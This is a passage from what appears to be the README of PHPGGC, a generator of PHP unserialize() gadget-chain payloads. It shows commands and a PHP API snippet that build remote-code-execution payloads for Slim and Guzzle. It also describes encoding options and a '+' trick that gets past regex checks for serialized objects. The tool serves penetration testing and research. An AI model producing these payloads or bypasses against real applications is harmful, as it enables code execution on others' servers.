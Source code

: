 The encoders can be chained, and as such **the order is important**. For instance, `./phpggc -b -u -u slim/rce1 system id` will base64 the payload, then URLencode it twice.


## Advanced: Enhancements

### Fast destruct

PHPGGC implements a `--fast-destruct` (`-f`) flag, that will make sure your serialized object will be destroyed right after the `unserialize()` call, and not at the end of the script. **I'd recommend using it for every `__destruct` vector**, as it improves reliability. For instance, if PHP script raises an exception after the call, the `__destruct` method of your object might not be called. As it is processed at the same time as encoders, it needs to be set first.

```
$ ./phpggc -f -s slim/rce1 system id
a:2:{i:7;O:18:"Slim\Http\Response":2:{s:10:"...
```

### ASCII Strings

Uses the `S` serialization format instead of the standard `s`. This replaces every non-ASCII value to an hexadecimal representation:
`s:5:"A<null_byte>B<cr><lf>";̀` -> `S:5:"A\00B\09\0D";`
This can be useful when for some reason non-ascii characters are not allowed (NULL BYTE for instance). Since payloads generally contain them, this makes sure that the payload consists only of ASCII values.
*Note: this is experimental and it might not work in some cases.*

### Plus Numbers

Sometimes, PHP scripts verify that the given serialized payload does not contain objects by using a regex such as `/O:[0-9]+:`. This is easily bypassed using `O:+123:...` instead of `O:123:`. One can use `--plus-numbers <types>`, or `-n <types>`, to automatically add these `+` signs in front of symbols.
For instance, to obfuscate objects and strings, one can use: `--n Os`. Please note that since PHP 7.2, only i and d (float) types can have a +.


# API

Instead of using PHPGGC as a command line tool, you can program PHP scripts:

```php
<?php

# Include PHPGGC
include("phpggc/lib/PHPGGC.php");

# Include guzzle/rce1
$gc = new \GadgetChain\Guzzle\RCE1();

# Always process parameters unless you're doing something out of the ordinary
$parameters = $gc->process_parameters([
	'function' => 'system',
	'parameter' => 'id',
]);

# Generate the payload
$object = $gc->generate($parameters);

# Most (if not all) GC's do not use process_object and process_serialized, so
# for quick & dirty code you can omit those two 
$object = $gc->process_object($object);

```